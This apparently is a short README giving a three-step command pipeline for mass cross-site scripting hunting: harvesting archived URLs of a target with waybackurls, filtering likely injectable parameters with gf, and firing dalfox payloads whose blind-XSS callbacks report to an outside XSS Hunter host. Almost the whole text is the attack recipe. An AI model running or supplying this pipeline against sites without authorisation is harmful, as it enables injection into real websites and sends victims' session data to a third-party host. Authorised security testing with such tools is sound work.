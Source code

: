 # XSS Automation with Dalfox

* First You Have Install Dalfox, GF and waybackurls

Steps :
```
   1) waybackurls target.com >> tee urls.txt
   2)cat urls.txt | gf xss | sed 's/=.*/=/' | sed 's/URL: //' | sort -u |tee Possible_xss.txt 
   3)dalfox file Possible_xss.txt -b xsshunterpyload.xss.ht pipe
```


